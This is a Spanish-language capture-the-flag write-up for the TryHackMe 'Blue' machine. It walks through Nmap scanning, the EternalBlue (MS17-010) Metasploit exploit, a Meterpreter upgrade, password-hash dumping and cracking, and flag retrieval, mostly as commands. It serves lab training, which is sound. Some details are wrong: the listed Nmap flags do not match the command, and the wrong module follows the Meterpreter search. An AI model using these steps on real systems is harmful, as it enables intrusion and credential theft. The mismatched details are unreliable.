

# Guía de Explotación - TryHackMe Blue

## 1. Reconocimiento

### Escaneo inicial con Nmap

Iniciamos con un escaneo Nmap para identificar los puertos abiertos, versiones de servicios y otra información relevante:

```bash
nmap -T4 --min-rate=10000 -p- -A IP_MAQUINA_ATACADA
```

#### Explicación de los parámetros:
- `-p-`  -> Escanea todos los puertos (1-65535).
- `--open`  -> Muestra solo los puertos abiertos.
- `-T4`  -> Define la velocidad del escaneo (agresivo).
- `-v`  -> Modo verboso, muestra resultados en tiempo real.
- `-n`  -> No realiza resolución de DNS.


### Escaneo específico de servicios detectados

Ahora realizamos un escaneo más detallado en los puertos abiertos para identificar los servicios y sus versiones:

```bash
nmap -sC -sV -p PUERTOS_ABIERTOS IP_MAQUINA_ATACADA
```

#### Explicación de los parámetros:
- `-sC` -> Ejecuta scripts de enumeración básicos.
- `-sV` -> Obtiene versiones de los servicios en los puertos abiertos.
- `-p`  -> Define los puertos específicos a analizar.

### Detección de vulnerabilidades en SMB

Uno de los hallazgos clave es el puerto **445**, utilizado por el protocolo **SMB (Server Message Block)**. Para verificar si el sistema es vulnerable a **MS17-010 (EternalBlue)**, utilizamos el siguiente comando:

```bash
nmap --script="smb-vuln*" -p 445 IP_MAQUINA_ATACADA
```


Confirmamos que la máquina es vulnerable a **MS17-010**.

---

## 2. Explotación

### Uso de Metasploit para explotar MS17-010

Abrimos **Metasploit** ejecutando:

```bash
msfconsole
```

Buscamos el exploit para **MS17-010**:

```bash
search MS17-010
```


Seleccionamos el exploit deseado:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Configuramos los parámetros necesarios:

```bash
set LHOST NUESTRA_IP
set RHOST IP_VICTIMA
show options
```


Ejecutamos el ataque:

```bash
run
```



---

## 3. Escalada a Meterpreter

Para obtener un **Meterpreter**, abandonamos la sesión actual:

```bash
Ctrl + Z
```

Buscamos un módulo de migración a **Meterpreter**:

```bash
search shell_to_meterpreter
```


Seleccionamos y configuramos el módulo:

```bash
use exploit/multi/handler
set SESSION 1
show options
run
```


Listamos sesiones activas y volvemos a nuestra sesión:

```bash
sessions 1
```

Verificamos privilegios:

```bash
whoami
```

Somos **NT AUTHORITY\SYSTEM**, el usuario con mayores privilegios.

---

## 4. Extracción de Hashes y Cracking de Contraseñas

Listamos los hashes de contraseñas de los usuarios del sistema:

```bash
hashdump
```


Para descifrar la contraseña del usuario "Jon", utilizamos **John The Ripper**:

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


---

## 5. Obtención de Flags

La plataforma indica que existen **tres flags**, localizadas en directorios clave de Windows.

### Flag 1: Raíz del sistema (`C:\`)

```bash
cd C:\
dir
type flag1.txt
```


### Flag 2: Ubicación de archivos de seguridad (`C:\Windows\System32\Config`)

```bash
cd C:\Windows\System32\Config
dir
type flag2.txt
```


### Flag 3: Archivos del usuario administrador (`C:\Users\Jon\Documents`)

```bash
cd C:\Users\Jon\Documents
dir
type flag3.txt
```


---

¡Máquina comprometida con éxito!